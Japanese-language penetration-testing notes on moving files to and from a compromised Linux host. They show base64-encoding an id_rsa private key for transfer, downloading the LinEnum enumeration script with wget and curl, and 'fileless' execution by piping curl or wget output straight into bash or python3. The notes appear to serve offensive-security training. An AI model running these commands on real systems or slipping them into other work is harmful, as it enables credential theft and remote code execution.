 ### Linux
#### Base64エンコーディング/デコード
md5ハッシュを確認する

##### 攻撃者側
```shell-session
md5sum <File>
```

Base64でエンコードする
```shell-session
cat id_rsa |base64 -w 0;echo
```
##### ターゲット側
```shell-session
echo -n 'Base64でエンコードした値' | base64 -d > id_rsa
```

md5ハッシュが一致しているかを確認する
```shell-session
md5sum id_rsa
```

#### WgetとcURLによるWebダウンロード

##### ターゲット側
wgetでのダウンロード
```shell-session
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
cURLでのダウンロード
```shell-session
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

#### ファイルレス攻撃 / Fileless攻撃
- `fileless` : いくつかのオペレーティングシステム機能を使用してペイロードをダウンロードし、直接実行する
	- スクリプトを直接ダウンロードして、そのままBashで実行する
	- ローカルのファイルシステムに保存されない！！！！
##### 攻撃者側
pythonでHTTPサーバーとかを立ち上げて、アクセスさせる
 ```bash
python3 -m http.server 8080
 ```

  攻撃者サーバーを一時的にwebサーバーとする

##### ターゲット側
curlによるファイルレスダウンロード
```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

wgetによるファイルレスダウンロード
```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
